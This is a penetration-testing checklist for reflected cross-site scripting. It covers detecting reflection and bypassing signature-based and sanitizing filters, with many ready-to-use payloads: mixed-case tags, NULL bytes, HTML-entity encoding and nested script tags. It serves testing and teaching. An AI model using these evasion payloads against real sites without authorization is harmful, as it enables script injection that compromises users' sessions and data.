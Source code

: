 # Reflected XSS

- [ ] Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters. Submit this string as every parameter to every page, targeting only one parameter at a time (Note that both GET and POST requests need to be tested).
- [ ] Monitor the application’s responses for any appearance of this same string.
- [ ] Submit the follwing payload `'';!--"<XSS>=&{()}` where reflection was detected. Check which characters gets encoded or truncated. If there is a filter in place, try to detect what signature it is using.
- [ ] Establish in which context the xss is in (between HTML tags,  in HTML tag attributes or in Javascript etc).

# Bypassing Signature-Based XSS Filters
- [ ] Starting with the opening tag name, the most simple and naive filters can be bypassed simply by varying the case of the characters used: `<iMg onerror=alert(1) src=a>`
- [ ] Going further, if you modify the example slightly, you can use arbitrary tag names to introduce event handlers, thereby bypassing filters that merely block specific named tags: `<x onclick=alert(1) scr=a>click here</x>`
- [ ] In addition, you can insert NULL bytes in any position. Note: The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes often provides a quick way to bypass signature-based filters that are unaware of IE's behavior. `<[%00]img onerror=alert(1) src=a>`
- [ ] Several characters can replace the space between the tag names and the first attribute name:
```
<img/onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<img """><script>alert("alert(1)")</script>">
```
Note: even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters: `script/anyjunk>alert(1)</script>`
- [ ] Attributes can optionally be delimited with double or single quotes or, on IE, with backticks:
```
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
<img onerror=`alert(1)`src=a>
```
Switching around the attributes in the preceding example provides a further way to bypass some filters that check for attribute names starting with on. img src='a'onerror=alert(1)> By combining quote-delimited attributes with unexpected characters following the tag name, attacks can be devised that do not use any whitespace, thereby bypassing some simple filters: `<img/onerror="alert(1)"src=a>`
- [ ] Within the attribute name and value, you can use the same NULL byte trick described earlier.
```
<img onerror=a[%00]lert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
You can also HTML-encode characters within the value: `<img onerror=a&#x6c;ert(1) src=a>`
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters.
- [ ] It is also worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding may overlook. You can use both decimal and hexadecimal format, add superfluous leading zeros, and omit the trailing semicolon.
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
```

# Beating HTML Sanitizing Filters
- [ ] When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters or expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters.
- [ ] So, if <script> is being stripped from your input, you should try the following to check whether all instances are being removed: `<script><script>alert(1)</script>`
- [ ] In this situation you should also check whether the sanitization is being performed recursively: `<scr<script>ipt>alert(1)</script>`

